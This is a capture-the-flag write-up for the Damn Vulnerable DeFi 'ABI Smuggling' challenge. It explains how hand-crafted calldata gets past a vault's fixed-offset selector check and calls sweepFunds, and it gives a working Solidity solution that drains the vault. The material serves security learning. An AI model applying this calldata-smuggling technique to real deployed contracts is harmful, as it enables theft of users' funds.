 ## [ABI Smuggling](https://www.damnvulnerabledefi.xyz/challenges/abi-smuggling/)



```solidity
contract ABISmugglingChallenge is Test {
  // [...]
  function setUp() public {
    startHoax(deployer);

    // Deploy token
    token = new DamnValuableToken();

    // Deploy vault
    vault = new SelfAuthorizedVault();

    // Set permissions in the vault
    bytes32 deployerPermission = vault.getActionId(hex"85fb709d", deployer, address(vault));
    bytes32 playerPermission = vault.getActionId(hex"d9caed12", player, address(vault));
    bytes32[] memory permissions = new bytes32[](2);
    permissions[0] = deployerPermission;
    permissions[1] = playerPermission;
    vault.setPermissions(permissions);

    // Fund the vault with tokens
    token.transfer(address(vault), VAULT_TOKEN_BALANCE);

    vm.stopPrank();
  }
  // [...]
  function _isSolved() private view {
    // All tokens taken from the vault and deposited into the designated recovery account
    assertEq(token.balanceOf(address(vault)), 0, "Vault still has tokens");
    assertEq(token.balanceOf(recovery), VAULT_TOKEN_BALANCE, "Not enough tokens in recovery account");
  }
}
```

### Analysis

The `SelfAuthorizedVault::sweepFunds` function allows us to transfer all tokens from the `SelfAuthorizedVault` contract to `recovery`. However, it has the `onlyThis` modifier, which restricts the function to being invoked only by the contract itself. Fortunately, we have the `AuthorizedExecutor::execute` function to do the job.

```solidity
contract SelfAuthorizedVault is AuthorizedExecutor {
  // [...]
  function sweepFunds(address receiver, IERC20 token) external onlyThis {
    SafeTransferLib.safeTransfer(address(token), receiver, token.balanceOf(address(this)));
  }
  // [...]
}
```

#### `AuthorizedExecutor::execute`

The `AuthorizedExecutor::execute` function has one restriction: it only allows `bytes4(calldataload(calldataOffset))` to be the specific value, though it does not have any effect. Let us prepare our payload.

```solidity
abstract contract AuthorizedExecutor is ReentrancyGuard {
  function execute(address target, bytes calldata actionData) external nonReentrant returns (bytes memory) {
    // Read the 4-bytes selector at the beginning of `actionData`
    bytes4 selector;
    uint256 calldataOffset = 4 + 32 * 3; // calldata position where `actionData` begins
    assembly {
      selector := calldataload(calldataOffset)
    }

    if (!permissions[getActionId(selector, msg.sender, target)]) {
      revert NotAllowed();
    }

    _beforeFunctionCall(target, actionData);

    return target.functionCall(actionData);
  }
}
```

We call the `AuthorizedExecutor::execute` function using the following calldata:

| The execute `selector` ([:4]) | `address target` ([4:4+32]) | `bytes actionData` offset ([36:36+32]) | Whatever ([66:66+32]) | The `selector` being checked ([98:98+4]) | `bytes actionData` length ([102:102+32]) | `bytes actionData`  data ([134:]) |
| ----------------------------- | --------------------------- | -------------------------------------- | --------------------- | ---------------------------------------- | ---------------------------------------- | --------------------------------- |
| (the `execute` selector)      | (`address(vault)`)          | 0x64                                   | 0                     | `bytes4(hex"d9caed12")`                  | `sweepFundsCallData.length`              | `sweepFundsCallData`              |

The `selector` being checked passes the permissions check, while the `actionData` argument is decoded as our `sweepFundsCallData`.

For more information on how Solidity decodes bytes calldata, see [Solidity ABI Specification](https://docs.soliditylang.org/en/latest/abi-spec.html#use-of-dynamic-types).

### Solution

```solidity
function test_abiSmuggling() public checkSolvedByPlayer {
  bytes memory sweepFundsCallData = abi.encodePacked(vault.sweepFunds.selector, uint256(uint160(recovery)), uint256(uint160(address(token))));
  bytes memory executeCallData = abi.encodePacked(
    vault.execute.selector,
    uint256(uint160(address(vault))),
    uint256(0x64),
    uint256(0),
    bytes4(hex"d9caed12"),
    sweepFundsCallData.length,
    sweepFundsCallData
  );
  (bool success, ) = address(vault).call(executeCallData);
  require(success, "Call failed");
}
```

Full solution can be found in [ABISmuggling.t.sol](./ABISmuggling.t.sol#L75).
